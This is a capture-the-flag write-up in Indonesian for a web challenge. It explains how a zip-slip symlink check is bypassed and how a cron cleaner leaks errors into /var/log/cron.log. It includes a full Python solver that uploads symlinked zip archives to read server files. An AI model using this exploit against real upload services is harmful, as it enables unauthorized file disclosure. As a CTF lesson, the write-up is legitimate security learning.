

## [470 pts] 📝 Writeup


Vuln Analysis

1. Zip Slip
2. Info Leak

Exploit

1. Zip Slip



Secara kasat mata code tersebut sepertinya aman terhadap serangan Zip Slip dimana ketika file atau directory adalah symlink maka program akan menghapus. Tapi line code berikut ini akan mencegah penghapusan file tersebut terjadi

| ifb"FLAG{FAKEFLAG}"incontent:`` returnJSONResponse(content={"message":f"writeup is valid"}, status_code=200) |
| ------------------------------------------------------------------------------------------------------------ |

Setelah file di extract, program akan melakukan checking secara iterative terhadap file jika isi content tersebut memiliki string FLAG{FAKEFLAG} maka program akan melakukan return dimana return akan langsung memberhentikan fungsi tersebut dan proses looping tersebut.

Untuk proses checking dilakukan secara ascending, maka kita dapat membuat file yang berisi string FLAG{FAKEFLAG} bernama a dan file symlink bernama z.

2. Info Leak

Terdapat sebuah cronjob

*/3 * * * * /usr/bin/python3 /app/module/cleaner.py >> /var/log/cron.log 2>&1


Sama seperti proses upload, dimana proses cleaner dilakukan secara iterative jika kita mengupload symlink folder ke server


Maka saat proses penghapusan ketika program menuju z akan ter redirect ke / dan kembali melakukan file deletion. Tetapi dikarenakan tidak memiliki permission untuk melakukan deletion maka exception akan terjadi.


Dan akan tersimpan di /var/log/cron.log

Step To reproduce

1. Lakukan auth ke pada webservice
2. Setelah login, upload zipslip yang berisikan folder symlink ke /
3. Tunggu proses cleaner berjalan
4. Upload zipslip yang berisikan file symlink ke /var/log/cron.log
5. Get Flag


solver.py

```python
import os
import zipfile
import requests
import random
import string
def generate_random_string(length):
   characters = string.ascii_letters + string.digits
   random_string = ''.join(random.choice(characters) for _ in range(length))
   return random_string
def remove(s):
   try:
       os.remove(s)
   except:
       pass
def add_to_zip(zipf, path, arcname=None):
   if os.path.islink(path):
       target = os.readlink(path)
       zipinfo = zipfile.ZipInfo(arcname or path)
       zipinfo.create_system = 3
       zipinfo.external_attr = 0o120777 << 16
       zipf.writestr(zipinfo, target)
   elif os.path.isdir(path):
       for root, dirs, files in os.walk(path):
           for name in dirs + files:
               full_path = os.path.join(root, name)
               arcname = os.path.relpath(full_path, os.path.dirname(path))
               add_to_zip(zipf, full_path, arcname)
   else:
       zipf.write(path, arcname or path)

def create_zip_with_symlinks(zip_path, source_dir, singleFile):
   with zipfile.ZipFile(zip_path, 'w', zipfile.ZIP_DEFLATED) as zipf:
       add_to_zip(zipf, source_dir)
       add_to_zip(zipf, singleFile)


uid = generate_random_string(5)
# AUTHENTICATION
url = "http://206.189.32.77:49447"
data = f"username=bengskyganteng{uid}&password=123"
ses = requests.Session()
headers = {"Content-type":"application/x-www-form-urlencoded"}
ses.post(url+"/signup", data=data, headers=headers)
ses.post(url+"/signin", data=data, headers=headers)
remove('z')
remove('a')
remove('bengsky-exploit.zip')
with open("a", "w") as f:
   f.write("FLAG{FAKEFLAG}")
source = 'z'
symlink_path = '/'
os.symlink(symlink_path, source)
output_zip = 'bengsky-exploit.zip'
create_zip_with_symlinks(output_zip, source, 'a')
boundary = "WebKitFormBoundary"+uid
raw_data = [
   f'--{boundary}\r\n'.encode(),
   f'Content-Disposition: form-data; name="file"; filename="{uid}.zip"\r\n'.encode(),
   'Content-Type: application/zip\r\n\r\n'.encode(),
   open('bengsky-exploit.zip', 'rb').read()+b"\r\n",
   f'--{boundary}--\r\n'.encode()
]
headers = {"Content-type":"multipart/form-data; boundary="+boundary}
response = ses.post(url+"/upload_writeup", data=b''.join(raw_data), headers=headers)
remove('z')
remove('a')
remove('bengsky-exploit.zip')
## phase 2
uid2 = generate_random_string(5)
with open("a", "w") as f:
   f.write("FLAG{FAKEFLAG}")
source = 'z'
symlink_path = '/var/log/cron.log'
os.symlink(symlink_path, source)
output_zip = 'bengsky-exploit.zip'
create_zip_with_symlinks(output_zip, source, 'a')
boundary = "WebKitFormBoundary"+uid2
raw_data = [
   f'--{boundary}\r\n'.encode(),
   f'Content-Disposition: form-data; name="file"; filename="{uid2}.zip"\r\n'.encode(),
   'Content-Type: application/zip\r\n\r\n'.encode(),
   open('bengsky-exploit.zip', 'rb').read()+b"\r\n",
   f'--{boundary}--\r\n'.encode()
]
headers = {"Content-type":"multipart/form-data; boundary="+boundary}
response = ses.post(url+"/upload_writeup", data=b''.join(raw_data), headers=headers)
flag = ses.get(url+f"/uploads/{uid2}/z").text

print(flag)
```

### Flag: META4SEC{sl1p1ng_4_r4c1ng_z1p_h3h3h3}
